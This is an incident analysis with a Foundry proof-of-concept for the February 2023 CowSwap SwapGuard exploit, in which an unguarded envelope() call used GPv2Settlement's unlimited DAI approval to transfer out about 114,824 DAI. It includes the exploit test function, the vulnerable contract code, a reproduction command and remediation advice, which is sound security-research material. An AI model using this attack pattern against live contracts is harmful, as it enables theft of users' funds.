



# CowSwap `SwapGuard` Exploit — Unvalidated Interaction Target in `envelope()` (arbitrary `transferFrom` under maxint `allowedLoss`)

> **Vulnerability classes:** vuln/access-control/missing-auth · vuln/dependency/unsafe-external-call

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.). The fork is served offline from a local
> `anvil_state.json` snapshot (`createSelectFork` points at `http://127.0.0.1:8545`,
> block `16574048`); no public RPC is required.
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [SwapGuard](sources/SwapGuard_cD07a7/contracts_SwapGuard.sol),
> with the victim/approver [GPv2Settlement](sources/GPv2Settlement_9008D1/src_contracts_GPv2Settlement.sol).

---

## Key info

| | |
|---|---|
| **Loss** | **114,824.890807160711319588 DAI** (= 114,824,890,807,160,711,319,588 wei) drained from the GPv2Settlement contract — tx [`0x90b468608fbcc7faef46502b198471311baca3baab49242a4a85b73d4924379b`](https://etherscan.io/tx/0x90b468608fbcc7faef46502b198471311baca3baab49242a4a85b73d4924379b) |
| **Vulnerable contract** | `SwapGuard` — [`0xcD07a7695E3372aCD2B2077557DE93e667B92bd8`](https://etherscan.io/address/0xcD07a7695E3372aCD2B2077557DE93e667B92bd8#code) |
| **Drained-from contract** | `GPv2Settlement` (CoW Protocol settlement) — [`0x9008D19f58AAbD9eD0D60971565AA8510560ab41`](https://etherscan.io/address/0x9008D19f58AAbD9eD0D60971565AA8510560ab41#code) |
| **Victim pool / vault** | `GPv2Settlement`'s DAI balance (leftover settlement liquidity the contract had approved to `SwapGuard`) |
| **Attacker EOA / contract** | PoC attacker contract `ContractTest` — `0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` (passed as `vault` to `envelope`) |
| **Attack tx** | [`0x90b46860…4379b`](https://etherscan.io/tx/0x90b468608fbcc7faef46502b198471311baca3baab49242a4a85b73d4924379b) |
| **Chain / block / date** | Ethereum mainnet / **16,574,048** / **Feb 7, 2023** |
| **Compiler** | `SwapGuard`: Solidity **v0.8.15**, optimizer **enabled**, **1,000,000 runs**; `GPv2Settlement`: v0.7.6, optimizer enabled, 1,000,000 runs (per `_meta.json`) |
| **Bug class** | Trust-boundary / arbitrary-call — caller-supplied interaction `target`+`callData` executed in `SwapGuard`'s context; only post-check is a `balanceOf(vault)` delta gated by attacker-controlled `balanceChanges`/`tokenPrices`/`allowedLoss` |

---

## TL;DR

1. `SwapGuard.envelope(Data[]{target,value,callData}, vault, tokens, tokenPrices, balanceChanges, allowedLoss)` is a
   generic "execute these calls and then check the vault didn't lose too much" helper
   ([contracts_SwapGuard.sol:31-70](sources/SwapGuard_cD07a7/contracts_SwapGuard.sol#L31-L70)).

2. The "execute these calls" step is a raw low-level `interaction.target.call{value: interaction.value}(interaction.callData)`
   ([:49](sources/SwapGuard_cD07a7/contracts_SwapGuard.sol#L49)) with **no whitelist on `target`**, **no restriction on
   `callData`**, and **no `msg.sender`/origin check**. The call runs *as `SwapGuard` itself*, so it inherits every
   approval `SwapGuard` holds.

3. `GPv2Settlement` had granted `SwapGuard` an **unlimited DAI allowance**
   (`DAI.allowance(GPv2Settlement, SwapGuard) == type(uint256).max`,
   [output.txt:24-25](output.txt)). Because `SwapGuard.envelope` is a `public payable` entry with no access control, any
   caller can drive that allowance.

4. The only safety net is the *post*-interaction balance check: for each token, if
   `balanceOf(vault)` ended up below `balancesBefore + balanceChanges[i]`, the shortfall (×`tokenPrices[i]`) is added to
   `totalLoss`, which reverts only if it exceeds `allowedLoss`
   ([:55-68](sources/SwapGuard_cD07a7/contracts_SwapGuard.sol#L55-L68)).

5. Every input to that check is **caller-controlled**. The attacker sets `vault = address(this)` (their own contract),
   `balanceChanges[0] = 0`, `tokenPrices[0] = 0`, and `allowedLoss = type(uint256).max`. With `expectedBalanceChange = 0`
   and `tokenPrices = 0`, `totalLoss` is forced to 0 regardless of what happened, so the revert can never fire — and
   `allowedLoss = max` is a belt-and-suspenders bypass.

6. The attacker's single interaction is `DAI.transferFrom(GPv2Settlement, attackerContract, fullBalance)` — sized to
   `min(GPv2Settlement's DAI balance, its allowance to SwapGuard)` ([CowSwap_exp.sol:43-50](test/CowSwap_exp.sol#L43-L50)).
   Because the call is made *by SwapGuard*, DAI's `allowance` check passes.

7. Net result: **114,824.890807160711319588 DAI** moves from `GPv2Settlement` to the attacker contract in one
   `envelope()` call, verified by `DAI.balanceOf` before/after in the trace ([output.txt:22-23](output.txt),
   [output.txt:38-39](output.txt)).

---

## Background — what CowSwap / `SwapGuard` does

CoW Protocol (formerly Gnosis Protocol v2, "GPv2") batches user limit orders and settles them on-chain against AMMs and
its own batch auction. The settlement flow lives in `GPv2Settlement`
([src_contracts_GPv2Settlement.sol](sources/GPv2Settlement_9008D1/src_contracts_GPv2Settlement.sol)), which is the
contract that actually holds order deposits and pulls/pushes tokens. As part of a settlement it may need to perform
arbitrary auxiliary calls — e.g. unwrap WETH, claim rewards, sweep a fee — via `executeInteractions`
([:450-470](sources/GPv2Settlement_9008D1/src_contracts_GPv2Settlement.sol#L450-L470)), which deliberately forbids only
one target: its own `vaultRelayer` ([:458-461](sources/GPv2Settlement_9008D1/src_contracts_GPv2Settlement.sol#L458-L461)).

`SwapGuard` is a separate, much smaller contract whose stated purpose (from its own NatSpec) is to *"limit the amount of
tokens that can be lost in a single transaction"*
([contracts_SwapGuard.sol:7-10](sources/SwapGuard_cD07a7/contracts_SwapGuard.sol#L7-L10)). Its single function
`envelope()`:

1. snapshots `tokens[i].balanceOf(vault)` before,
2. blindly executes a caller-supplied list of `{target, value, callData}` interactions,
3. re-checks the vault's balances after, and reverts if the loss exceeded `allowedLoss`.

The intended caller is CoW's own settlement/backend, which would pass a `vault` it controls and a conservative
`allowedLoss`. The bug is that **nothing in the contract enforces that intent** — `envelope` is `public payable` and the
"loss" arithmetic is fully attacker-steerable.

On-chain state at the fork block (read directly from the trace):

| Parameter | Value | Source |
|---|---|---|
| `DAI` address | `0x6B175474E89094C44Da98b954EedeAC495271d0F` | [output.txt:13](output.txt) |
| `SwapGuard` address | `0xcD07a7695E3372aCD2B2077557DE93e667B92bd8` | [output.txt:15](output.txt) |
| `GPv2Settlement` address | `0x9008D19f58AAbD9eD0D60971565AA8510560ab41` | [output.txt:17](output.txt) |
| `DAI.balanceOf(GPv2Settlement)` | `114824890807160711319588` wei (~114,824.89 DAI) | [output.txt:22-23](output.txt) |
| `DAI.allowance(GPv2Settlement → SwapGuard)` | `type(uint256).max` (`1.157e77`) | [output.txt:24-25](output.txt) |
| Attacker contract (`vault`) | `0x7FA9385bE102ac3EAc297483Dd6233D62b3e1496` | [output.txt:26](output.txt) |

The two facts that make this a critical bug: GPv2Settlement had pre-approved SwapGuard for *unlimited* DAI, and
`SwapGuard.envelope` would execute *any* calldata from *any* caller — so the unlimited allowance was reachable by the
public.

---

## The vulnerable code

### 1. `SwapGuard.envelope` — arbitrary low-level call with no target/auth checks

```solidity
function envelope(
    Data[] calldata interactions,
    address vault,
    IERC20[] calldata tokens,
    uint256[] calldata tokenPrices,
    int256[] calldata balanceChanges,
    uint256 allowedLoss
) public payable {
    unchecked {
        // save all current balances of tokens
        uint256[] memory balancesBeforeInteractions = new uint256[](tokens.length);
        for (uint256 i = 0; i < tokens.length; i++) {
            balancesBeforeInteractions[i] = tokens[i].balanceOf(vault);
        }

        for (uint256 i = 0; i < interactions.length; i++) {
            Data memory interaction = interactions[i];
            // solhint-disable-next-line avoid-low-level-calls
            (bool success, bytes memory returnData) = interaction.target.call{value: interaction.value}(interaction.callData);
            if (!success) {
                revert BadInteractionResponse(returnData);
            }
        }
        // ... post-check (subsection 2) ...
    }
}
```
([contracts_SwapGuard.sol:31-53](sources/SwapGuard_cD07a7/contracts_SwapGuard.sol#L31-L53))

`interaction.target` and `interaction.callData` are taken verbatim from calldata. The `call` is dispatched from
`SwapGuard`'s own context, so `msg.sender` of the inner call is `SwapGuard` — which is the exact address whose allowance
GPv2Settlement had set to `type(uint256).max`. There is **no** whitelist of permitted `target`s, **no** `msg.sender` /
`tx.origin` gate on `envelope`, and **no** re-entrancy guard.

### 2. The "loss" post-check is fully attacker-controlled

```solidity
uint256 totalLoss = 0;
// check that we didn't loose more than allowedLoss
// it is okay if we got more than expected
for (uint256 i = 0; i < tokens.length; i++) {
    uint256 balanceAfterInteraction = tokens[i].balanceOf(vault);
    int256 expectedBalanceChange = balanceChanges[i];
    int256 actualBalanceChange = balanceAfterInteraction.toInt256() - balancesBeforeInteractions[i].toInt256();
    if (actualBalanceChange < expectedBalanceChange) {
        totalLoss += (expectedBalanceChange - actualBalanceChange).toUint256() * tokenPrices[i];
    }
    if (totalLoss > allowedLoss) {
        revert LostMoreThanAllowed(totalLoss, allowedLoss);
    }
}
```
([contracts_SwapGuard.sol:55-68](sources/SwapGuard_cD07a7/contracts_SwapGuard.sol#L55-L68))

Three independent caller-supplied knobs defeat this check:

- `vault` is the address whose balance is measured. The attacker passes `vault = address(this)`, so the "balance of the
  vault" is the attacker contract's *own* DAI balance, which *grows* by the stolen amount.
- `balanceChanges[i]` is the expected delta. The attacker passes `0`, so the check only fires if the attacker's balance
  went *down* — it didn't.
- `tokenPrices[i]` multiplies any shortfall. The attacker passes `0`, so even a real shortfall contributes nothing to
  `totalLoss`.
- `allowedLoss` is the revert threshold. The attacker passes `type(uint256).max`.

Any one of those being attacker-controlled is enough; here **all four** are.

### 3. The exploit interaction (attacker-built, executed by SwapGuard)

```solidity
function testExploit() external {
    uint256 amount = DAI.balanceOf(GPv2Settlement);
    if (DAI.allowance(GPv2Settlement, address(swapGuard)) < amount) {
        amount = DAI.allowance(GPv2Settlement, address(swapGuard));
    }
    bytes memory callDatas =
        abi.encodeWithSignature("transferFrom(address,address,uint256)", GPv2Settlement, address(this), amount);
    SwapGuard.Data[] memory interactions = new SwapGuard.Data[](1);
    interactions[0] = SwapGuard.Data({target: address(DAI), value: 0, callData: callDatas});
    address vault = address(this);
    // ...
    balanceChanges[0] = 0;
    uint256 allowedLoss = type(uint256).max;
    swapGuard.envelope(interactions, vault, tokens, tokenPrices, balanceChanges, allowedLoss);
}
```
([CowSwap_exp.sol:42-59](test/CowSwap_exp.sol#L42-L59))

`amount` is clamped to the smaller of the victim's balance and its allowance (both effectively unlimited here), then
encoded as `DAI.transferFrom(GPv2Settlement → attackerContract, amount)`. Because this calldata is dispatched *by
SwapGuard*, DAI sees `msg.sender = SwapGuard` and draws on the
`GPv2Settlement → SwapGuard` allowance.

---

## Root cause — why it was possible

`SwapGuard` was designed to be a *guard*, but its threat model was inverted. The contract trusts the **caller** of
`envelope()` to supply benign interactions, an honest `vault`, honest `balanceChanges`, and a conservative `allowedLoss`.
None of those assumptions are enforced in code. Concretely, four design failures compose into the drain:

1. **No caller authorization.** `envelope` is `public payable` with no `onlyOwner`/`onlySettler`/allowlist. Anyone can
   invoke it — there is not even an `auth` modifier like the one `GPv2Settlement.settle` uses
   (its `onlySolver` modifier, [:85-90](sources/GPv2Settlement_9008D1/src_contracts_GPv2Settlement.sol#L85-L90),
   applied to `settle` at [:121-128](sources/GPv2Settlement_9008D1/src_contracts_GPv2Settlement.sol#L121-L128)).
2. **Unvalidated, arbitrary interaction target.** `interaction.target.call(callData)` runs any code against any address
   as `SwapGuard`. Contrast with GPv2Settlement's own `executeInteractions`, which at minimum forbids the `vaultRelayer`
   ([:458-461](sources/GPv2Settlement_9008D1/src_contracts_GPv2Settlement.sol#L458-L461)); `SwapGuard` forbids nothing.
3. **The safety check measures the wrong account and the wrong direction.** It measures `vault` (caller-chosen) and only
   counts *downward* deltas against `expectedBalanceChange` (caller-chosen). A transfer *into* the attacker's `vault`
   registers as a gain and is explicitly ignored ("it is okay if we got more than expected",
   [:57-58](sources/SwapGuard_cD07a7/contracts_SwapGuard.sol#L57-L58)).
4. **All loss-arithmetic inputs are caller-supplied.** `tokenPrices`, `balanceChanges`, and `allowedLoss` all come from
   calldata. Setting `tokenPrices[i]=0` zeroes any loss; `allowedLoss=max` makes the revert unreachable regardless.

The proximate enabler is the standing **unlimited DAI allowance** from `GPv2Settlement` to `SwapGuard`
([output.txt:24-25](output.txt)). Without that approval the inner `transferFrom` would revert. But the *vulnerability*
is in `SwapGuard`: an arbitrary-call public entry that runs with every approval the guard holds, policed only by
attacker-supplied loss parameters.

---

## Preconditions

- A token (here DAI) for which some victim has granted `SwapGuard` a non-zero allowance — in this case
  `GPv2Settlement → SwapGuard = type(uint256).max` ([output.txt:24-25](output.txt)).
- Non-zero victim token balance held *by the approver* (`GPv2Settlement` held 114,824.89 DAI,
  [output.txt:22-23](output.txt)).
- Gas to make a single transaction. No flash loan, no privileged role, no timing window — `envelope` is always open.

---

## Attack walkthrough (with on-chain numbers from the trace)

The trace is short (47 lines); every number below is cited to a line in [output.txt](output.txt).

| # | Step | Value | Source |
|---|------|------:|--------|
| 0 | **Read victim balance** — `DAI.balanceOf(GPv2Settlement)` | `114824890807160711319588` wei ≈ **114,824.890807 DAI** | [output.txt:22-23](output.txt) |
| 0 | **Read victim allowance to SwapGuard** — `DAI.allowance(GPv2Settlement, SwapGuard)` | `115792089237316195423570985008687907853269984665640564039457584007913129639935` (= `type(uint256).max`) | [output.txt:24-25](output.txt) |
| 1 | **Build the interaction** — `amount = min(balance, allowance) = 114824890807160711319588`; calldata = `DAI.transferFrom(GPv2Settlement, attackerContract, amount)`; `vault = attackerContract`; `balanceChanges=[0]`, `tokenPrices=[0]`, `allowedLoss = type(uint256).max` | — | [output.txt:26](output.txt) |
| 2 | **Call `SwapGuard.envelope(...)`** | — | [output.txt:26](output.txt) |
| 2a | &nbsp;&nbsp;↳ inside envelope: snapshot `DAI.balanceOf(attackerContract)` before | `0` | [output.txt:27-28](output.txt) |
| 2b | &nbsp;&nbsp;↳ execute interaction: `DAI.transferFrom(GPv2Settlement → attackerContract, 114824890807160711319588)` | emits `Transfer(from=GPv2Settlement, to=attackerContract, value=114824890807160711319588)` | [output.txt:29-34](output.txt) |
| 2c | &nbsp;&nbsp;↳ inside envelope: snapshot `DAI.balanceOf(attackerContract)` after | `114824890807160711319588` wei ≈ 114,824.89 DAI | [output.txt:35-36](output.txt) |
| 2d | &nbsp;&nbsp;↳ post-check: `actualChange (≈+1.148e23) < expectedChange (0)`? **No** → no loss added; `totalLoss=0 ≤ max` → **no revert** | — | [output.txt:37](output.txt) |
| 3 | **Confirm attacker balance** — `DAI.balanceOf(attackerContract)` | `114824890807160711319588` wei ≈ **114,824.890807160711319588 DAI** | [output.txt:38-39](output.txt) |
| 4 | **Log** — `Attacker DAI balance after exploit: 114824.890807160711319588` | matches | [output.txt:42](output.txt) |

State-evolution of the two key accounts:

| Account | DAI before | DAI after | Δ |
|---|---:|---:|---:|
| `GPv2Settlement` (`0x9008D1…`) | 114,824.890807160711319588 | 0 (asserted by the storage-diff in trace) | **−114,824.89** |
| Attacker contract (`0x7FA938…`) | 0 | 114,824.890807160711319588 | **+114,824.89** |

The storage-diff at [output.txt:32-33](output.txt) shows the GPv2Settlement DAI balance slot
(`0x31adef62…f368`) dropping from `0x…1850ab783cc486b29024` to `0` and the attacker's slot
(`0x6e10ff27…1f78`) rising from `0` to the same value — a clean one-to-one transfer.

### Profit / loss accounting (DAI)

| Direction | Amount (DAI) |
|---|---:|
| Attacker DAI before | 0 |
| Attacker DAI after | 114,824.890807160711319588 |
| **Net profit** | **+114,824.890807160711319588** |
| GPv2Settlement DAI before | 114,824.890807160711319588 |
| GPv2Settlement DAI after | 0 |
| **Victim loss** | **−114,824.890807160711319588** |

The PoC does not borrow or return capital — the entire delta is genuine stolen liquidity. The final log line
"Attacker DAI balance after exploit: 114824.890807160711319588" ([output.txt:42](output.txt)) is the asserted result.

---

## Diagrams

### Sequence of the attack

```mermaid
sequenceDiagram
    autonumber
    actor A as Attacker contract
    participant SG as SwapGuard (0xcD07a7…)
    participant DAI as DAI token
    participant GPv2 as GPv2Settlement (0x9008D1…)

    Note over GPv2,SG: Standing state:<br/>DAI.allowance(GPv2 → SG) = type(uint256).max<br/>DAI.balanceOf(GPv2) = 114,824.89 DAI

    rect rgb(255,243,224)
    Note over A,SG: Build attacker-controlled inputs
    A->>A: amount = min(DAI.balanceOf(GPv2), allowance) = 114,824.89 DAI
    A->>A: interactions[0] = {target=DAI, callData=transferFrom(GPv2, A, amount)}<br/>vault = A; balanceChanges=[0]; tokenPrices=[0]; allowedLoss = max
    end

    rect rgb(255,235,238)
    Note over A,DAI: The exploit
    A->>SG: envelope(interactions, vault=A, tokens=[DAI], prices=[0], changes=[0], loss=max)
    SG->>DAI: balanceOf(vault=A) [before] → 0
    Note over SG: SG now runs interaction as msg.sender = SG
    SG->>DAI: transferFrom(GPv2 → A, 114,824.89 DAI)
    DAI->>DAI: allowance(GPv2 → SG) ≥ amount ✓
    DAI-->>A: Transfer(GPv2 → A, 114,824.89 DAI)
    SG->>DAI: balanceOf(vault=A) [after] → 114,824.89 DAI
    Note over SG: post-check: actualChange (+) < expectedChange (0)? NO<br/>tokenPrices[0]=0 → totalLoss=0 ≤ max → no revert
    SG-->>A: envelope returns (no revert)
    end

    Note over A: Net +114,824.89 DAI
```

### Victim/approver state evolution



### The flaw inside `SwapGuard.envelope`



### Why the guard never trips: attacker steers every loss input



---

## Why each magic number

- **`amount = min(DAI.balanceOf(GPv2Settlement), DAI.allowance(GPv2Settlement, SwapGuard))`** ([CowSwap_exp.sol:43-46](test/CowSwap_exp.sol#L43-L46)):
  drains the maximum the guard is authorized to pull. Both are effectively unlimited at the fork block, so `amount`
  resolves to the full `114,824.890807…` DAI balance ([output.txt:22-25](output.txt)).
- **`target = address(DAI)`, `callData = transferFrom(GPv2Settlement, address(this), amount)`**
  ([CowSwap_exp.sol:47-50](test/CowSwap_exp.sol#L47-L50)): `transferFrom` is the only DAI method that both consumes an
  allowance and moves tokens *out of a third party*. Because SwapGuard is the caller, the `GPv2Settlement → SwapGuard`
  allowance is what gets spent.
- **`vault = address(this)`** ([CowSwap_exp.sol:51](test/CowSwap_exp.sol#L51)): makes the post-check measure the
  *attacker's* balance, which only goes up.
- **`tokenPrices[0] = 0`** ([CowSwap_exp.sol:54-55](test/CowSwap_exp.sol#L54-L55)): zeroes the loss term even if a
  shortfall existed.
- **`balanceChanges[0] = 0`** ([CowSwap_exp.sol:56-57](test/CowSwap_exp.sol#L56-L57)): sets the expected delta to zero so
  any gain is treated as "fine" and any small dip is the only thing that could count.
- **`allowedLoss = type(uint256).max`** ([CowSwap_exp.sol:58](test/CowSwap_exp.sol#L58)): belt-and-suspenders — the
  revert threshold is unreachable no matter what.

---

## Remediation

1. **Authorize the caller.** `envelope` must be gated — `onlyOwner`, an `auth`/allowlist modifier, or restricted to the
   designated settler contract. GPv2Settlement already uses a `solverAuth`-style pattern for its own privileged entry
   points; `SwapGuard` should do the same. This single change kills the public-call vector.
2. **Whitelist `interaction.target`.** Even an authorized caller should not be able to point the low-level `call` at an
   arbitrary address. Maintain an allowlist of permitted interaction targets (or at minimum forbid token contracts whose
   allowances the guard holds — the exact class that enables `transferFrom` drains). Mirror GPv2Settlement's
   `executeInteractions`, which forbids its `vaultRelayer`
   ([:458-461](sources/GPv2Settlement_9008D1/src_contracts_GPv2Settlement.sol#L458-L461)).
3. **Measure the *right* account.** The post-check should measure the token balance of the *approver/victim* (the
   address whose allowance is being spent), not a caller-supplied `vault`. A drain via `transferFrom(victim, …)` would
   then register as a real loss on the victim's balance.
4. **Do not let the caller set the loss parameters.** `tokenPrices`, `balanceChanges`, and `allowedLoss` should come
   from a trusted source (oracle / hardcoded config / settlement context), not from calldata. At minimum, reject
   `tokenPrices[i] == 0` and `allowedLoss == type(uint256).max`.
5. **Revoke excess allowances.** The standing `type(uint256).max` allowance from `GPv2Settlement` to `SwapGuard`
   amplified a logic bug into a full drain. Use scoped, short-lived, or per-call allowances (e.g., via a `Permit2`-style
   signature) so that even a guard compromise is bounded.
6. **Add a re-entrancy guard and a `nonPayable` modifier** unless native-value interactions are genuinely required; the
   `payable` + `unchecked` + arbitrary-call combination is a footgun.

---

## How to reproduce

The PoC runs offline via the shared harness, which serves the fork from the bundled `anvil_state.json`
(`createSelectFork("http://127.0.0.1:8545", 16_574_048)` — [CowSwap_exp.sol:36](test/CowSwap_exp.sol#L36)). No public RPC
endpoint is required.

```bash
_shared/run_poc.sh 2023-02-CowSwap_exp --mt testExploit -vvvvv
```

- Chain / fork: Ethereum mainnet, block **16,574,048** (Feb 7, 2023), served locally by anvil from
  `anvil_state.json`.
- `foundry.toml`: `evm_version = "cancun"`, `eth_rpc_retries = 25`, `fs_permissions = [{ access = "read", path = "./"}]`.
- Test function: **`testExploit`** in `test/CowSwap_exp.sol` (contract `ContractTest`).
- Result: `[PASS] testExploit()` with `Attacker DAI balance after exploit: 114824.890807160711319588`.

Expected tail ([output.txt:4-7, 45-47](output.txt)):

```
Ran 1 test for test/CowSwap_exp.sol:ContractTest
[PASS] testExploit() (gas: 59974)
Logs:
  Attacker DAI balance after exploit: 114824.890807160711319588

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 2.46s (1.27s CPU time)

Ran 1 test suite in 2.46s (2.46s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

---

*Reference: MevRefund — https://twitter.com/MevRefund/status/1622793836291407873 ; PeckShield —
https://twitter.com/peckshield/status/1622801412727148544 (CowSwap / GPv2Settlement DAI drain, Ethereum mainnet, Feb 7 2023).*
